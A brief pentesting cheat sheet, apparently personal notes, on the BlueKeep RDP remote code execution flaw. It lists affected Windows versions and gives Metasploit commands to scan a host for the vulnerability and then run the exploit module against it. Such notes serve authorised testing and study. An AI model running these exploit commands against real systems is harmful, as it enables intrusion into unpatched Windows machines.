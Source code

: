 #### BlueKeep
		- RDP vulnerability name, allows remote code execution
		- Made public in 2019
		- Access granted to kernel memory 
		- Patched May 14th
		- Effects windows XP, Vista, 7, Server 2008, Server R2
		- Provides privileged access

#### Tools
bluekeep
msfconsole

#### Commands

Check if machine is vulnerable to bluekeep  with msfconsole
```
search bluekeep
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep 
show option 
set RHOSTS target_ip
run
```

Exploit  machine with msfconsole
```
use exploit/windows/cve_2019_0708_bluekeep_rce
set RHOSTS target_ip
show targets
set target 2
exploit
```
